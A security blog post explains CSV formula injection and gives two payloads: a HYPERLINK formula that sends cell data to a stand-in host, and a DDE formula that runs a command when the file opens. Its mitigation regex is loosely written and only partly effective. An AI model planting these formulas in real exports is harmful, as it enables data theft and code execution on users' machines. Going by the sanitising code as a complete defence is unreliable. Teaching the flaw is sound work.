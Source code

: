 ```yaml
---
slug: is-csv-secure/
title: Is that CSV Secure?
date: 2017-12-22
category: attacks
subtitle: Defining CSV injection vulnerabilities
tags: cybersecurity, vulnerability, code, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330929/blog/is-csv-secure/cover_tteaiz.webp
alt: Blank CSV document icon
description: Comma-Separated Values file is a common extension in data files used in several application fields. Here we present a CSV vulnerability most people ignore.
keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/Wpnoqo2plFA
---
```


Comma-Separated Values file (or CSV) is a type of file that stores
tabular data, numbers and text in plain text. Each line of the file is a
data record and each record consists of one or more fields separated by
commas. CSV is a common data exchange format that is widely supported by
consumer, business, and scientific applications. As an example, a user
may need to transfer information from a database program that stores
data in a proprietary format, to a spreadsheet that uses a completely
different format. The database program most likely can export its data
as "CSV"; the exported CSV file can then be imported by the spreadsheet
program.

<div class="imgblock">

![example](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

There is a vulnerability in this types of format that the most of
programmers ignores, that is "CSV Injection". As
[OWASP](https://www.owasp.org/index.php/CSV-Injection) says, it occurs
when websites embed untrusted input inside CSV files, when a spreadsheet
program is used to open a CSV file, any cell starting with '**=**' is
considered as a formula and crafted formulas can be used to malicious
attacks.

## CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

<div class="imgblock">

![page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

We put some normal data and nothing happens

<div class="imgblock">

![input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-input_tryyrw.webp)

</div>

<div class="imgblock">

![result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-result_twbflm.webp)

</div>

But what happens if we put a formula like =2+5 in a field?

<div class="imgblock">

![formula-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-input_x6toul.webp)

</div>

<div class="imgblock">

![formula-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-result_tuzdgy.webp)

</div>

On our table nothing happens, but when we open the CSV file we get the
result of the formula that we introduced. This can be very dangerous if
someone introduce a more dangerous code like

``` text
  =HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
```

When the user open the file it shows a link with our malicious site

<div class="imgblock">

![vuln](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/hyperlink-vuln_mlaocr.webp)

</div>

Also we can execute commands on the target with this formula injection,
in where we open the calc when someone opens the CSV file

``` text
  =cmd|' /C calc'!A0
```

It shows some warnings but the user trust in the source of the file and
accept

<div class="imgblock">

![warning-1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330925/blog/is-csv-secure/first-warning_wbfqyq.webp)

</div>

<div class="imgblock">

![warning-2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/second-warning_hha72t.webp)

</div>

And then the code execution

<div class="imgblock">

![exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/exec-example_bumpxl.webp)

</div>

The effectiveness of this vulnerability is that the user trust on the
source of the file without asking himself if is the normal behaviour
when someone opens a CSV file and the program asks form permission

### Solution

- First is user awareness, because Windows shows an alert when someone
  puts command execution code in the CSV file like we’ve seen

- Second, input validation, the most common characters to do this
  attack are:

<!-- end list -->

``` text
  =,+,-,@
```

A developer could make a validation like this regex

**validation.js.**

``` javascript
var regexp = new RegExp(/([=,-,+,@])/g);
```

And blocking this types of input, also, can put a space between the
dangerous character like ' =' to mitigate this vulnerability

``` javascript
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
```

In this example we can see that the spreadsheet program doesn’t
calculate the formula and our input is secure

<div class="imgblock">

![secure-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/secure-input_bisups.webp)

</div>

<div class="imgblock">

![secure-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330924/blog/is-csv-secure/secure-result_sfsxxc.webp)

</div>

The source code of the page for testing can be found
[here](csvinjection.zip)
